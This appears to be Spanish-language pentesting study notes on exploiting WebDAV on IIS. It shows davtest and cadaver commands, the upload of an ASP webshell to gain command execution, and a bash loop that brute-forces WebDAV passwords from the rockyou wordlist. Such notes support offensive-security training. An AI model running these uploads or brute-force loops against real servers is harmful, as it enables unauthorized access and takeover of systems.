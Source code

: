# Explotación de WebDAV en IIS

Tags: #IIS #WebDav #Servidor 

* IIS = Internet Information Services y  es un servidor web para el sistema operativo Windows.
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell 

```bash 
/usr/share/webshells/                # Ruta de la Webshell, estas son aplicaciones que se ejecutan en la web de forma interactiva y asi poder ejecutar comandos 

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## WebDAV 

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir y ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos la webshell al servidor Webdav
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```